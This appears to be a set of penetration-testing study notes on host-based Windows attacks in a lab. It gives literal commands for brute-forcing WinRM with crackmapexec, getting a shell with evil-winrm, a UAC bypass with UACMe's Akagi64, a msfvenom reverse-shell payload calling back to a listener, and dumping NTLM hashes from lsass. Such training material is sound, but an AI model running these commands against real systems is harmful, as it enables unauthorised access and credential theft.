 # Table of Contents
1. Overview
2. Tools
	1. Windows
	2. Linux

---
# Overview
This phase is about exploiting what has been found in the [enumeration](../Assessment_Methodologies/Enumeration.md) phase.

Taking advantage of **inherent vulnerabilities** or **misconfigurations** in order to collect credentials and to expand your access and foothold into the network. All about gaining more power (privilege escalation) and expanding your access (lateral movement).
  
Host based attacks are against internal machines and not necessarily servers that are running services that are public accessible.

Type of Vulnerabilities
- Information Disclosure
- Buffer Overflows
- Remote Code Execution
- Privilege Escalation
- Denial of Service

---
# Tools
## Windows Attacks
### Services

| Service  | #Ports   | Description                            |
| -------- | -------- | -------------------------------------- |
| IIS      | 80/443   | webserver                              |
| WebDav   | 80/443   | Web Distributed Authoring & Versioning |
| SMB/CIFS | 445      | Network File sharing                   |
| RDP      | 3389     | Remote Desktop Protocol                |
| WinRM    | 5986/443 | Windows Remote Management Protocol     |

### Services
- [IIS WebDav](../../Services/IIS-WebDav.md)
- [SMB with PsExec](../../Services/SMB.md#PsExec)
- [RDP](../../Services/RDP.md)
- WinRM
#### Windows Remote Management (WinRM)
- 5985/5986 ports
##### crackmapexec
- brute force
- `crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"`

##### evil-winrm.rb
- ruby script which gets shell access
- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.5`

##### msfconsonle
- use exploit/windows/winrm/winrm_script_exec
	- set rhosts addr
	- set force_vbs true
	- set username administrator
	- set password tinkerbell

### Privilege escalation
#### github Tools
Iffy don't seem to be updated recently
- Windows-Exploit-Suggester
	- target patch level compared to MS vulnerability database
- SecWiki/Windows-Kernel-Exploits
	- Collection of exploits sorted by CVE

#### msfconsole
- post/multi/recon/local_exploit_suggester
	- set session
	- running will check for local exploits modules that appear possible
	- can then run module

#### UAC bypass Lab
- requires local admin account
- UACMe github /hfiref0x/UACME
	- `net localgroup administrators` : used to check user in local admin
	- *admin* account with *UAC* set on default setting
- rejetto msfconsole module
	- once on machine
	- `sysinfo` : shows info
	- `pgrep explorer` get PID
	- `migrate 2448` migrate to x64 via explorer PID
	- `sysinfo` verify
	- `getuid` show userinfo
	- `getprivs` shwo privileges
	- `shell` open local shell session
		- `net user` show users
		- `net localgroup administrators` show users in local administrator group
		- ctrl-c to exeit shell
	- `cd C:\\`
	- mkdir Temp if it doesnt exist
	- `upload /root/shells.exe` : from below
	- `upload /root/Desktop/tools/UACME/Akagi64.exe`
	- `shell` 
		- `.\Akagi64.exe 23 C:\Temp\shells.exe` 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=4455 -f exe > shells.exe` generate payload
- msfconsole
	- use multi/handler
	- set payload windows/meterpreter/reverse_tcp
	- set LHOST
	- set LPORT 4455
	- run : sets up listener for payload
	- `ps` find lsass.exe with NT authority
	- `migrate 688` migrate to process
	- `getuid` show that you are NT authority
	- `hashdump` dump NTLM hashes


---
## Linux Attacks
